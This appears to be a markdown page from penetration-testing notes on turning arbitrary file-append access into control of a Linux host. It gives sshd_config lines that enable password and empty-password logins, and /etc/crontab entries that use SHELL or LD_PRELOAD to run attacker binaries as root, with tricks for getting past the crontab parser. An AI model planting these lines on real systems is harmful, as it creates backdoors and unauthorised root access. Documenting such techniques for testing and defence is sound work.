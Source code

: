 # Append To Arbitrary File
* as root or user you can append data to a file and ...
	* fully control content
	* partially control content (eg. parts of a logfile)
	* none (empty file)

### sshd
Looking at a mostly-default sshd config file most things are commented out so anything you append will take precedence if there is not something already before it (TODO: add sources for order of parsing).  

#### Clean file ending
```
# Allow client to pass locale environment variables
AcceptEnv LANG LC_*

# override default of no subsystems
Subsystem	sftp	/usr/lib/openssh/sftp-server

# Example of overriding settings on a per-user basis
#Match User anoncvs
#	X11Forwarding no
#	AllowTcpForwarding no
#	PermitTTY no
#	ForceCommand cvs server
```

#### Messy file ending (user specific and all users)
```
# Allow client to pass locale environment variables
AcceptEnv LANG LC_*

# override default of no subsystems
Subsystem	sftp	/usr/lib/openssh/sftp-server

# We can literally just uncomment that example
# password authentication enabled for key only servers
Match User knownaccount
	X11Forwarding yes
	AllowTcpForwarding yes
	PermitTTY yes
	PasswordAuthentication yes
	PermitEmptyPasswords yes
# not all of these may apply
AllowTcpForwarding yes
PermitTTY yes
PasswordAuthentication yes
PermitEmptyPasswords yes
```
### firefox
#### user.js
See the firefox prefs.js section in file-overwrite. The difference here is that changes can be made while the browser is open. 
### crontab
* requires `root` permissions
* file location `/etc/crontab`
* different cron variants exist https://pkgs.org/download/cron
* very strict syntax, no arbitrary text or bytes. Not even null-byte allowed
* comments start with `#`
* file has to end with a newline `\n`
* env variables assigned before cronjob line are set for the cronjob execution
	* use `SHELL` or `LD_PRELOAD` to execute a binary. File **must** be executable.

#### Clean File
* you can also set environment variable. But they have to be set before the cronjob
```
SHELL=/home/user/pwn
LD_PRELOAD=/home/user/lib.so
* * * * * root   (date;id) >> /tmp/crontab
@hourly root   (date;id) >> /tmp/crontab
```

#### Messy File
* see [`env.c` parsing](https://github.com/systemd-cron/crontab/blob/master/env.c#L132). if this fails to find an env var, it expects a crontab entry line.

```
fghr56%$^R4265ytd=invalid env var is ignored. But name must not contain space before = sign 8&$%(*& r5sa78d56rA&Ir67^RT%*x

SHELL=/home/user/pwn
LD_PRELOAD=/home/user/lib.so
* * * * * root   (date;id) >> /tmp/crontab

# this is a comment <00><ff> arbitrary bytes can be here
     # spaces are also fine
```
